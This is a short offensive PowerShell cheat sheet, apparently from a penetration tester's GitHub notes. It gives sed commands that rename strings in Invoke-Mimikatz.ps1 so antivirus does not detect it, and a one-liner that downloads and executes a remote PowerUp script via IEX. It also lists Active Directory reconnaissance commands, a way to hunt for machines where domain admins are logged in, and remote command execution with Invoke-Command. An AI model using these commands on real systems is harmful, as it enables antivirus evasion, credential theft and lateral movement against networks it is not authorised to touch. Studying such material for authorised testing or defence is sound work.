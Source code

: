 # Powershell
List of different powershell commands.


## Obfuscation

[How to Bypass Anti-Virus to Run Mimikatz - Black Hills Information Security](https://www.blackhillsinfosec.com/bypass-anti-virus-run-mimikatz/)

Look for:
```Shell
sed -i -e 's/Invoke-Mimikatz/Invoke-Mimidogz/g' Invoke-Mimikatz.ps1
sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1
 
sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1
 
sed -i -e 's/DumpCreds/DumpCred/g' Invoke-Mimikatz.ps1
 
sed -i -e 's/ArgumentPtr/NotTodayPal/g' Invoke-Mimikatz.ps1
 
sed -i -e 's/CallDllMainSC1/ThisIsNotTheStringYouAreLookingFor/g' Invoke-Mimikatz.ps1
 
sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions\$Win32Functions #\-/g" Invoke-Mimikatz.ps1
```

Alternative:

```Plaintext
powershell "IEX (New-Object Net.WebClient).DownloadString(‘http://<din ip>/powerup.ps1’);Invoke-Allchecks”
```
## Commands

##### Find groups for user
```Shell
whoami /groups 
whoami /all
```
##### Alternative:
```Shell
gpresult /R
```
##### Find information on user:
```Shell
shell net user USERNAME /domain
```

PowerView:
```Powershell
Get-DomainUser USERNAME
Get-Netuser -UserName <username>
Get-NetUser -Domain <domain>
#Get-ADUser -Identidy <user>    
#Get-ADUser -Filter * -Properties *
#Get-ADUser -Server <server>
``` 
##### Find computers where a domain admin is logged in:
```Powershell
Invoke-UserHunter -CheckAccess
Invoke-UserHunter -username <>
```
##### Run commands on remote hosts:
```Powershell
Invoke-Command(icm) -computername PC050015 -scriptblock {whoami /groups}
```